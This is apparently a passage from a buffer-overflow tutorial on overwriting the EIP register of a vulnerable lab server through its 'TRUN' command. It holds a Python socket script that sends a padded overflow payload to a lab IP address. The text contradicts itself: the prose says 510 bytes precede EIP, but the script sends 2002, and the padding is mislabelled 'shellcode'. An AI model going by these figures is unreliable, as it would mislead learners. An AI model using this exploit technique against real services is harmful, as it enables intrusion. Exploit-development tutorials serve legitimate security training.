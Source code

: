 # Overwriting the EIP

In our previous step, we successfully overflowed the buffer, which means that we have control over the data that will overwrite the `EIP` (Extended Instruction Pointer).

To proceed with overwriting the `EIP`, we need to consider that there are `510` bytes preceding the `EIP`. Therefore, we will send `510` bytes filled with 'A' characters to reach the `EIP`, followed by `4` bytes filled with 'B' characters to overwrite the `EIP`.

<img alt="" class="bg hc hd c" width="1000" height="620" loading="lazy" role="presentation" src="https://i.ibb.co/5YVvYKk/4-Overwrite-EIP.png"></img>

```python
#!/bin/python

import sys
import socket
from time import sleep

shellcode = "A"* 2002 + "B"* 4
try:
      s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.40.135',9999))
      s.send(('TRUN / .:/' + shellcode))
      s.close()
except:
      print "Error connecting to server"
      sys.exit()                  
```                                   
                                        
 The `EBP` (Extended Base Pointer) was filled with 'A's `(41414141)`, and the `EIP` was filled with 'B's `(42424242)`.
